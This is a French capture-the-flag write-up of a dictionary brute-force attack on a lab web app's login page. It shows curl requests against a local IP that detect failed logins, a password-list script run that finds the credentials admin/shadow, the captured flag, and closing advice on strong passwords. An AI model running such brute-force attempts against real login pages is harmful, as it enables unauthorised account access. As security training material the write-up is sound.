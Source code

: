 # Bruteforce

## Exploitation

Il est possible de passer un username / password sur la page de login. Dans le cas d'une authentification echouée, une image `<img src="images/WrongAnswer.gif" alt="">` est retournée. On essaie ici avec `toto` / `tutu`

```bash
$> USERNAME=toto PASSWORD=tutu ; curl -s "http://192.168.99.100/index.php?page=signin&username=$USERNAME&password=$PASSWORD&Login=Login" | grep "WrongAnswer.gif"

<center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>
```

Nous allons utiliser cette requete pour faire une attaque par Bruteforce en essayant des combinaisons de login / password courante.

Si dans le body de la reponse, nous avons l'image `WrongAnswer.gif` c'est que la combinaison est mauvaise.

Nous avons écrit ce [script](./script.sh) qui va checker pour differents username les password présent dans un fichier `dictionary` comportant les mots de passes les plus courant (trouvé [ici](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best110.txt)) :

```bash
$> ./script.sh
Usage: ./script.sh <host> <input-file>
Example: ./script.sh 192.168.99.100 dictionary

$> ./script.sh 192.168.99.100 dictionary
==== TESTING USER : admin
failed for admin / 000000
failed for admin / 111111
failed for admin / 123123
failed for admin / 123321
failed for admin / 1234
success for admin / shadow
```

Donc on a bien succes avec le login `admin` et le mot de passe `shadow`. Le flag est dans la page:

```bash
$> USERNAME=admin PASSWORD=shadow ; curl -s "http://192.168.99.100/index.php?page=signin&username=$USERNAME&password=$PASSWORD&Login=Login" | grep flag

The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Resolution

Il est deconseillé d'utiliser des usernames trop communs comme `root` ou `admin`.

Il faut utiliser des mot de passe forts (chiffres + lettres + caracteres speciaux), length > 10,  pas de mots du dictionnaire.
